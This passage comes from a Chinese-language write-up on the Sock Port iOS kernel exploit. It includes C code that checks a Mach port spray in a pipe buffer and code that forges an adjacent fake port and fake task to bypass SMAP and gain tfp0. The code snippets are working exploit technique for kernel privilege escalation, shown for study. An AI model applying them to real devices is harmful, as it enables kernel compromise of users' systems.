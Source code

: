```c
    uint64_t addr;
    read(fds[0], &addr, 8);
    if (addr == target_addr) { // if we see the address of our port, it worked
        break;
    }
    write(fds[1], &addr, 8); // reset buffer position
    
    mach_port_destroy(mach_task_self(), p); // spraying didn't work, so free port
    p = MACH_PORT_NULL;
}
```

这里我们使用了与 Pipe Buffer 尺寸相同（0x10000）的消息，以便能够成功的将 port address 填充到 Pipe Buffer 中。

如何检查我们是否成功呢？只需要先拿到上述 target port 的地址，再从 Pipe Buffer 中读取 8B（由于之前我们预写了 8B，这里拿到的应该是第一个 port 的地址），如果 Spraying 成功 target port address 应当等于我们从 Pipe Buffer 中读到的地址。

# 伪造 port 与 task
## 另一个 pipe
上述填充到 Pipe Buffer 中的依然是用户态 port，并没有 tfp0 能力，我们需要篡改这个 port 以获得 tfp0。

由于 SMAP 的存在，我们的 fake port 与 fake task 都需要通过 pipe 拷贝到内核中才能被正常访问，因此我们需要再创建一个 pipe。

Sock Port 源码中这个部分十分巧妙，它在内核中分配了能容纳 port 与 task 的连续区域，然后让 port->task 指向与之相邻的 task 区域，这样我们就用一片区域同时控制了 port 与 task，又绕过了 SMAP，关键代码如下：
```c
int port_fds[2] = {-1, -1};
pipe(port_fds);

// create fake port and fake task, put fake_task right after fakeport
kport_t *fakeport = malloc(sizeof(kport_t) + 0x600);
ktask_t *fake_task = (ktask_t *)((uint64_t)fakeport + sizeof(kport_t));
bzero((void *)fakeport, sizeof(kport_t) + 0x600);

fake_task->ref_count = 0xff;

fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;
fakeport->ip_references = 0xd00d;
fakeport->ip_lock.type = 0x11;
fakeport->ip_messages.port.receiver_name = 1;
fakeport->ip_messages.port.msgcount = 0;
fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
fakeport->ip_srights = 99;
fakeport->ip_kobject = 0;
fakeport->ip_receiver = ipc_space_kernel;

if (SMAP) {
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);
}

// 这里省略了获得 port_pipe_buffer 地址的代码

if (SMAP) {
    // align ip_kobject at our fake task, so the address of fake port + sizeof(kport_t)
    fakeport->ip_kobject = port_pipe_buffer + sizeof(kport_t);
}
else {
    fakeport->ip_kobject = (uint64_t)fake_task;
}
```
在 SMAP 下，内核中引用的地址不能来自 userland，因此上述关键代码底部的 task 指向的是 Pipe Buffer 中的空间。